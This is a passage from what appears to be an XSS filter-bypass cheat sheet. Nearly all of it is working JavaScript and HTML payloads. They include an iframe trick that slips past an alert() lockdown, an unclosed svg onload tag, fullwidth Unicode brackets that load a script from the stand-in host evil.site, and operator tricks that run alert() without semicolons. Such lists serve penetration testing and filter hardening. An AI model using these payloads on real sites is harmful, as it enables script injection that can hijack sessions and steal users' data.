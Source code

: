 Bypass using an alternate way to trigger an alert

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```

## Bypass ">" using Nothing

There is no need to close the tags, the browser will try to fix it.

```javascript
<svg onload=alert(1)//
```

## Bypass "<" and ">" using ＜ and ＞

Use Unicode characters `U+FF1C` and `U+FF1E`, refer to [Bypass using Unicode](#bypass-using-unicode) for more.

```javascript
＜script/src=//evil.site/poc.js＞
```

## Bypass ";" using Another Character

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```

